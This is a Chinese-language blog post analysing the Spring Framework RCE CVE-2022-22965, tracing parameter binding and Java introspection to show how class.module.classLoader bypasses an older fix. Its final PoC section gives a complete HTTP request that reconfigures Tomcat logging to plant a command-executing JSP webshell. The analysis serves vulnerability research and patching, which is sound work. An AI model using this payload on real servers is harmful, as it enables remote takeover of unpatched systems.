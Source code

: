 ```yaml
---
title: "Spring Framwork RCE分析"
date: 2022-04-15T10:56:52+08:00
draft: true
image: https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151059216.png
description: 
comments: true
license: false
math: false
categories:
- note
tags:
- Spring
- Java
---
```


## Spring Framwork RCE分析

最近出的CVE-2022-22965其实是CVE-2010-1622的绕过，大致原理是Spring MVC在参数绑定时，会将用户传入的参数注入到pojo对象中，因为在数据绑定的过程中能获取到classLoader，导致用户可以通过classLoader修改Tomcat的配置属性来执行危险操作

### 影响版本

Spring Framework

- 5.3.0 to 5.3.17
- 5.2.0 to 5.2.19
- 其他一些老旧的不受支持的版本



### Spring MVC 参数绑定流程

我们首先创建一个用户类

```
public class User {
    private String id;
    private String name;
    ......补充其 get set toString 方法
}
```

直接在参数中写上对应 User 类型就可以了

```
@RequestMapping("objectType.do")
@ResponseBody
public String objectType(User user) {
    return user.toString();
}
```

访问`http://localhost:8080/objectType.do?id=001&name=Steven`

返回结果：`User{uid='001', name='Steven'}`

详细可看：[SpringMVC参数绑定入门就这一篇](https://segmentfault.com/a/1190000022586808)

下面是代码层面：

`DispatcherServlet`是 SpringMVC 工作流程的中心，用户请求经过`Filter`和`Interceptor`之后会被`DispatcherServlet`分配到具体的`Controller`，具体是在dodispatch方法里：

![image-20220414175620272](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151046343.png)

在doDispatch方法里面，获取处理器适配器再调用后端处理器中的方法：

![image-20220414180105645](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151046460.png)

适配器调用后端处理器时候会调用`ModelAttributeMethodProcessor#resolveArgument`来处理请求参数，`resolveArgument`具体是调用`this.bindRequestParameters`：

![image-20220414180227761](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151046388.png)

`bindRequestParameters`调用`ServletRequestDataBinder#bind`：

![image-20220414203347627](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151046198.png)

下边会走到`DataBinder#doBind`，这里调用`DataBinder#applyPropertyValues`，断点处的`this.getPropertyAccessor()`获得的是一个`BeanWrapperlmpl`对象，接下来就会走到`org.springframework.beans`里面：

![image-20220414175006099](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151046172.png)

`BeanWrapperlmpl`继承了`org.springframework.beans.AbstractPropertyAccessor`

`BeanWrapperImpl`具体实现了创建，持有以及修改bean的方法。
其中的`setPropertyValue`方法可以将参数值注入到指定bean的相关属性中(包括list,map等)，同时也可以嵌套设置属性。

这里调用了`setPropertyValues`方法遍历`propertyValue`，并循环调用`setPropertyValue`方法设置属性值：

![image-20220414175129097](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151046195.png)



经过剩下的一系列调用，最终会走到`org.springframework.beans.BeanWrapperImpl.BeanPropertyHandler#setValue`

这里先去获取目标bean的setter，再反射调用：

![image-20220414194956957](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151046291.png)

这样就实现了Request参数和bean属性的绑定



### 漏洞原理

在上一部分遍历`propertyValue`并循环调用`setPropertyValue`方法设置属性值的时候，在设置之前有一个获得对应的类中参数操作`tokens=xxx`，具体是在`getPropertyAccessorForPropertyPath`里面获取的：

![image-20220414203807497](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151046284.png)

这个方法会递归获取参数值，循环查看参数中是否包含`[`、`]`、`.`若存在则按分割赋值给`nestedProperty`，再调用`getNestedPropertyAccessor`方法：

![image-20220414205520668](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151047675.png)

在`getNestedPropertyAccessor`方法里面会去获取缓存内省的结果`cachedIntrospectionResults`：

![image-20220414211225039](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151047987.png)

这个方法会调用`getBeanInfo`进而调用`java.beans.Introspector#getBeanInfo`去获取Bean的信息：（即Java内省）

![image-20220414213621130](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/202204151047880.png)

这里就不得不说内省了：

> 内省(Introspector) 是Java 语言对 JavaBean 类属性、事件的一种缺省处理方法。其中的`propertiesDescriptor`实际上来自于对Method的解析。

意思就是，**只要有 getter/setter 方法中的其中一个，那么 Java 的内省机制就会认为存在一个属性**

Java Beans API的Introspector类提供了两种方法来获取类的bean信息：

```
BeanInfo getBeanInfo(Class<?> beanClass)
BeanInfo getBeanInfo(Class<?> beanClass, Class<?> stopClass)
```

这里就出现了一个使用时可能出现问题的地方：**如何没有传入`stopClass`，这样会使得访问该类的同时访问到`Object.class`**。

因为在java中所有的对象都会默认继承Object基础类而存在一个`getClass()`方法，所以会找到class属性。

如果我们更进一步：`Introspector.getBeanInfo(Class.class)`，那么就可以获取到**classLoader**。

与此相照应的，上图箭头处是CVE-2010-1622的修复，如果获取到`class.classLoader`就直接结束本次循环（不把本次结果存入`this.propertyDescriptors`）

最新的CVE-2022-22965用的是`class.module.classLoader`(jdk9+的Class对象增加了一个Module类的属性)，利用`module.getclassloader != class.classloader`绕过了这个限制。

拿到clasLoader之后和[Struts2 S2-020在Tomcat 8下的命令执行](https://cloud.tencent.com/developer/article/1035297)原理大致相同，也就是可以修改Tomcat的配置，造成任意文件写入。

### PoC

```http
GET /spring4shell/?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

执行之后可以在`webapps/ROOT/tomcatwar.jsp`看到写入的Webshell。

>  注意：如果使用IDEA运行配置起的Tomcat的话，因为是映射的目录，所以Tomcat下面并不会有webshell，而是在IDEA的某个目录下，可以用everything搜索下

### Reference

https://blog.csdn.net/god_zzZ/article/details/124029497

https://cloud.tencent.com/developer/article/1035297

http://rui0.cn/archives/1158

https://vulhub.org/#/environments/spring/CVE-2022-22965/

https://segmentfault.com/a/1190000022586808
